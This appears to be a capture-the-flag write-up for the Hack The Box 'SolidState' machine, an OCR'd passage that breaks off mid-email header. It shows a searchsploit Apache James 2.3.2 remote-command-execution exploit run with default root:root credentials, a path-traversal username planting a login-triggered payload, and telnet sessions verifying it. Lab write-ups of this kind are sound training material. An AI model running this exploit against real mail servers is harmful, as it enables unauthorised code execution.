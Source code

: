 [p3:/git/htb/solidstate]$ searchsploit JAMES
  --- snip ---
  Apache James Server 2.3.2 - Remote Command Execution                   | linux/remote/35513.py

The script logs in with default credentials (root:root) and creates the user '../../../../../../../../etc/bash_completion.d'.
Once created, an email containing a malicious payload will be sent which will be triggered once someone logs into the machine.

Modify the payload, execute and verify the results:

  [p3:/git/htb/solidstate]$ python 35513.py 10.10.10.51                                                                                               (master✱)
    [+]Connecting to James Remote Administration Tool...
    [+]Creating user...
    [+]Connecting to James SMTP server...
    [+]Sending payload...
    [+]Done! Payload will be executed once somebody logs in.

  [p3:/git/htb/solidstate]$ telnet 10.10.10.51 4555
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    JAMES Remote Administration Tool 2.3.2
    Please enter your login and password
    Login id:
      root
    Password:
      root
    Welcome root. HELP for a list of commands

    listusers
      Existing accounts 6
      user: james
      user: ../../../../../../../../etc/bash_completion.d
      user: thomas
      user: john
      user: mindy
      user: mailadmin
      user james

  [p3:/git/htb/solidstate]$ telnet 10.10.10.51 110                                                                                                    (master✱)
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    +OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
    USER ../../../../../../../../etc/bash_completion.d
      +OK
    PASS exploit
      +OK Welcome ../../../../../../../../etc/bash_completion.d
    LIST
      +OK 2 1239
      1 600
      2 639
      .
    RETR 2
      +OK Message follows
      Return-Path: <'@team.pl>
      Message-ID: <6334054.1.1615365875656.JavaMail.root@solidstate>
      MIME-Version: 1.0
      Content-Type: text/plain; charset=us-ascii
      Content-Transfer-Encoding: 7bit
      Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
      Received: from 10.10.14.6 ([10.10.14.6])
                by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 471